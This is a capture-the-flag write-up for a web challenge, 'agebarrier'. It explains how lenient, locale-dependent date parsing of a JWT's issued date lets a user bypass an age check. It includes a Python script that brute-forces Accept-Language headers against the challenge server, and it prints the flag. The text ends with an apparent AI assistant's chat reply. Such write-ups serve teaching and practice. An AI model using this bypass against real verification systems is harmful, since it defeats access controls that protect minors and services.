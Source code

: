 
````markdown
# agebarrier

**Category:** Web  
**Author of Challenge:** 0xle  
**Team:** Davidslingshot  

---

## 📌 Challenge Description

The youngsters are easily bypassing age verification systems nowadays, so I made my very own bleeding-edge and future-proof age verification system. Surely, it's impenetrable?

---

## 🔍 Vulnerability

```kotlin
@Service
class DefaultDateTimeFormatterProviderService : DateTimeFormatterProviderService {
    override fun get(): DateTimeFormatter {
        return DateTimeFormatter.ofLocalizedDate(FormatStyle.SHORT)
            .withLocale(LocaleContextHolder.getLocale())
            .withResolverStyle(ResolverStyle.LENIENT)
    }
}
val formatter = DateTimeFormatter.ofLocalizedDate(FormatStyle.SHORT)
    .withLocale(LocaleContextHolder.getLocale())        // uses request locale (Accept-Language)
    .withResolverStyle(ResolverStyle.LENIENT)          // lenient parsing

val issued = LocalDate.parse(claims["iss"], formatter)
````

Normally, when you visit the website, it takes the **current date** and stores it inside a **JWT token**, then sends that token back.
Example token for `30-08-2025`:

```
eyJlcGsiOnsia3R5IjoiT0tQIiwiY3J2IjoiWDI1NTE5IiwieCI6IllCU0lfLWlsLVplN25naGZOT1dpV1lKczVQVHB5YUlKYnpuTk5fNmluajQifSwiZW5jIjoiQTI1NkdDTSIsImFsZyI6IkVDREgtRVMrQTI1NktXIn0.nWiW0Bjgb5x7wQWhXjJfe5NfcFDwKB8rqg6n2z_gUk3RkeXQFmz2zA.VY4BdY_vmGbCYZzP.9TbMpq7CnQPcY1Ca7jPORIv4Cr5eXQhIOUYs22h7rStK4zaaCi6hkpIb08rqHSoAiJmI6ZaEM934TyXrU-iPbNfxDYas26-lYJVKzESYfhgijLh2YVJr-vv_VtJzK8iFZv5nS9bf5sqHih0AlXlm87dFLcRQ49e7VMIy4yZf_SexZWw.OsEkYiAH1k9yN4J7vfb2TA
```

---

## ⚡ Exploit Idea

The exploit comes from how the **server parses dates**.
It uses `DateTimeFormatter.ofLocalizedDate(FormatStyle.SHORT)` **with the locale taken from the `Accept-Language` header**.
Because parsing is **lenient**, different locales interpret the same short date differently.

### 1. 🇺🇸 USA (`en-US`)

* Pattern: `M/d/yy`
* Example: `8/30/25`
* Ambiguity: year `25` → can be **2025, 1925, or 0025** depending on parsing.

### 2. 🇨🇳 China (`zh-CN`)

* Pattern: `yy/M/d`
* Example: `25/8/30`
* Ambiguity: year `25` → can be misinterpreted as **year 25 AD**.

By choosing the right `Accept-Language`, the server thinks the token is **ancient/expired**, bypassing checks.

---

## 🔨 Exploit Script

We brute force locales to find the one that tricks the server into accepting our token.

```python
import requests
import urllib3
import sys

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

BASE = "https://d0172ccd-4c60-4154-afd5-f8b291fef6c7.chall.nnsc.tf"  # change if needed
TIMEOUT = 10

def issue_token(session, issue_locale="en-US"):
    headers = {"Accept-Language": issue_locale}
    r = session.post(f"{BASE}/tokens", headers=headers, timeout=TIMEOUT, verify=False)
    r.raise_for_status()
    return r.json()["token"]

def try_claim(session, token, product_id=3, accept_language=None):
    headers = {}
    if accept_language:
        headers["Accept-Language"] = accept_language
    payload = {"token": token}
    r = session.post(f"{BASE}/products/{product_id}", json=payload, headers=headers, timeout=TIMEOUT, verify=False)
    return r

def main():
    s = requests.Session()
    print("[*] Issuing token...")
    try:
        token = issue_token(s, issue_locale="en-US")
    except Exception as e:
        print("[-] Failed to issue token:", e)
        sys.exit(1)
    print("[+] Got token (length {})".format(len(token)))

    locales = [
        "en-US", "en-GB", "fr-FR", "de-DE", "sv-SE", "fi-FI", "nl-NL",
        "it-IT", "es-ES", "pt-BR", "ru-RU", "zh-CN", "ja-JP", "ar-SA",
        "ko-KR", "da-DK", "nb-NO", "pl-PL", "cs-CZ"
    ]

    print("[*] Trying claim with different Accept-Language values...")
    for loc in locales:
        try:
            r = try_claim(s, token, product_id=3, accept_language=loc)
            status = r.status_code
            if status == 200:
                try:
                    body = r.json()
                except Exception:
                    body = r.text
                print(f"[!!!] Success with Accept-Language: {loc}")
                print("Response:", body)
                return
            else:
                print(f"[-] {loc}: HTTP {status}")
        except Exception as e:
            print(f"[-] {loc}: request failed ({e})")

    print("[*] None of the tested locales succeeded. Try more locales or tweak issuance locale.")

if __name__ == "__main__":
    main()
```

---

## 🏁 Flag

```
NNS{D4tes_4nd_t1m3z0n3s_ar3_h4rd_06993d8ad651}
```

---

✅ This Markdown will render perfectly in GitHub with code blocks, headers, and sections.

Do you want me to also prepare the **outer challenge README.md** (short one with just description) separately, so you can have both challenge + team writeup in place?

